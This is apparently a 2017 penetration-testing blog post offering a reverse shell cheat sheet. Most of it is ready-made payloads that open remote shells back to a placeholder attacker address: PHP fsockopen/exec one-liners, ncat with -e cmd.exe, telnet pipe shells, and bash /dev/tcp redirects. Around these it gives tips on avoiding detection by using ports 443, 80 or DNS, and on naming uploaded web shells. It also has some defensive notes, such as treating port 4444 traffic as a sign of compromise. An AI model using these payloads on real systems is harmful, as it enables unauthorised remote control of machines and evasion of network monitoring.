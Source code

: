 ```yaml
---
layout: post
author: remotephone
title:  "Reverse Shell Cheat Sheet"
date:   2017-01-17 20:56:00 -0600
categories: lab homelab pentest cheatsheet
---
```


## Cause everyone posts one

If enumeration is the bread and butter of penetration testing, reverse shells are the cheesecake. Stolen usernames and passwords may be one of the most reliable ways to get into a system, but theres nothing like messing something up a bunch and then finally seeing that reverse shell prompt pop up. These are some quick and easy ones in different formats.

## First, some thoughts

Reverse shells are great, but you need to make sure they get to you. Way too many reverse shells and exploits code the exploit to send reverse shells back to port 4444. If you see this port active in a production environment and can't immediately recognize why, you need to figure it out. You may have been popped by someone who barely knows what they're doing which probably also means someone way worse is already in. 

If you're going to send yourself back a reverse shell, try ports that people should expect to see. Port 80 and 443 are great, but so is DNS. [This](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html) is an excellent write up of RCE found in Facebook that had to use outbound DNS to send results back to his listening machine. Amazing stuff. 

If you think it should work and it's not, tcpdump or wireshark your host (if you can) and see what's coming and going. If I'm trying to exploit a web app on port 80 to send back a remote shell, one tcpdump quickie I use is 

~~~
tcpdump -qtpni eth0/tap0/whatever0 host <VICTIMIP> and not port 80 
~~~

That watches traffic for anything coming back and gives you a condensed, simple output for it only on the interface you expect the attack to copme back through (tap0 if you're on a VPN, for example), listening only for the victim host so you don't see a bunch of other noise and excluding the port you know you're going to see traffic on. In this case, since I'm attacking port 80, I'm probably listening on port 443 with a netcat listener. You could specify port 443 only, but this wouldn't catch if you did something wrong in your exploit and are sending the exploit back to the wrong port (we all make mistakes). 


### But bind shells are easier!

And therein lies the problem. Bind shells are great, but they're irresponsible. If you can bind to the port, anyone else can. If you're part of a real engagement for a customer or doing something in house, you can't leave bind shells everywhere, it's like leaving windows open for burglars. If someone is already inside the client's network,  you've just made their job that much easier when your goal is the opposite. Use reverse shells, encrypt when possible, and clean up after yourself. Relatedly, if you're uploading a file to an externally available site like a web shell, don't name it admin.php or shell.php. Use a complex naming schema that can't be brute forced or ideally a tag that can be found repeatedly. Something like remotephone_j1er234.php is harder to brute force and way easier to track down for cleanup.  


## Let's begin!

Don't be lazy. You shouldn't be trying to get a shell back unless you have a good idea of what the underlying OS is. Each one of these can be adjusted and may need to be. It's possible you know you have a linux type OS, but what if bash is in /usr/bin/ instead of /bin/? Do some recon, know what you're working with, and, if you really have every reason to believe you should be getting a shell but you aren't, always assume you've done something wrong. It's usually the safe bet.  

### PHP

This is a very generic PHP reverse shell. It runs PHP inside of itself to send a connection back with /bin/sh

~~~
'<?php  echo shell_exec(php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
~~~

Here are a lot of variations on a theme. Each one worked for something different (some didn't work at all, but might for you), and others are just interesting.

~~~
'<?php -r fsockopen("<ATTACKIP>",443); exec("/bin/sh -i <&3 >&3 2>&3"); ?>'
'<?php $s=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&4 >&4 2>&4");?>'
'<?php exec("/bin/sh | /bin/nc <ATTACKIP> 443");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php set_time_limit (20);$sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i <&3 >&3 2>&3");?>'
'<?php $sock=fsockopen("<ATTACKIP>",443);exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
'<?php shell_exec("/bin/sh -i >& /dev/tcp/<ATTACKIP>/443 0>&1");?>'
~~~

No matter what's different with each one, every single one is calling a command shell, sending it over a network connection to the port you want. Every example is using port 443, so adjust that as you need to adjust it. Also, note that it's suspicious to send non-HTTPS traffic over 443, so keep that in mind if you're dealing with deep packet inspection or an attentive analyst. It might be more useful to use meterpreter reverse_https for something like that.

### Ncat and nc

Ncat and nc are great tools. You can do a ton with each one, but ncat is just a whole other level for what it allows you to accomplish. While nc is the traditional tool, ncat comes from the same people who produce nmap and includes tons more features including ssl support and the ability to restrict access! 

Of course, you'll have to work these into your exploit. To create a bind shell that only allows a specific IP to connect to it, use

~~~
ncat -lvp 4445 -e cmd.exe --allow <ATTACKIP> --ssl
~~~

To do this even more safely, use a reverse shell 

~~~
ncat -v <attackIP> 443 -e cmd.exe --ssl
~~~


### Non-netcat Shells

This one is really clunky, but it works when you just can't get anything else working. For this to work, you need two listeners and your shell will show up on the second one. It's a complete mess, but it works and it's just kind of nifty to see.

~~~
telnet <ATTACKIP> 443 | /bin/sh | telnet <ATTACKIP> 444
~~~

This one came from [this](https://twitter.com/webpentest/status/424165659518316544) tweet and it's interesting. 

~~~
/bin/bash -l > /dev/tcp/<ATTACKIP>/<ATTACKPORT> 0<&1 2>&1
~~~

Another interesting telnet shell

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet <ATTACKIP> <ATTACKPORT> 0/tmp/p
~~~




#### Sources

"If I've seen so far, it's because I've stolen the shoulders of giants" or something. 

These are some great resources for some of the shells I've included above. Learn from others, modify it, and share!


[The one](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) everyone seems to link 

[Variations](https://highon.coffee/blog/reverse-shell-cheat-sheet/) on the theme.

[Oldy](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) but goody
